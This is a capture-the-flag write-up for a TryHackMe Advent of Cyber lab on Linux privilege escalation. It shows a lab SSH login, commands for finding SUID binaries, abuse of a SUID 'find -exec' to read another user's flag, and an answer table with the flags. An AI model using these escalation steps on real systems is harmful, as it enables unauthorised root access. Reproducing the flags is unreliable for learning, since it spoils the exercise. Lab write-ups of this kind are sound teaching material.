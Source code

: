 # [Day 10] Metasploit-a-ho-ho-ho Writeup
### Tags: `#Linux Privilege Escalation #SUID #GTFOBins`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day10.png' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.169.45
```

![](imgs/ping.png)

2.) Lets connect to the machine through ssh on port 65534 using username:password holly:tuD@4vt0G*TU

```bash
ssh -p 65534 holly@10.10.169.45
```

![](imgs/ssh.png)

3.) Lets try and find all the binaries with the SUID bit set using the following commands.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

![](imgs/suid.png)

4.) Using the binary "find" and the SUID bit set, we can use the -exec flag to run commands of the owner of the bin. 

```bash
find flag1.txt -exec chmod 777 flag1.txt \;
or
find flag1.txt -exec cat flag1.txt \;
```

![](imgs/find.png)

5.) The binary /usr/bin/system-control looks like a custom file and has the SUID bit set. Lets execute the bin and see if we can root on the machine.

![](imgs/root.png)

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | What port is SSH running on? | 65534 |
| Task #2 | Find and run a file as igor. Read the file /home/igor/flag1.txt | THM{d3f0708bdd9accda7f937d013eaf2cd8} |
| Task #3 | Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? | THM{8c8211826239d849fa8d6df03749c3a2} |







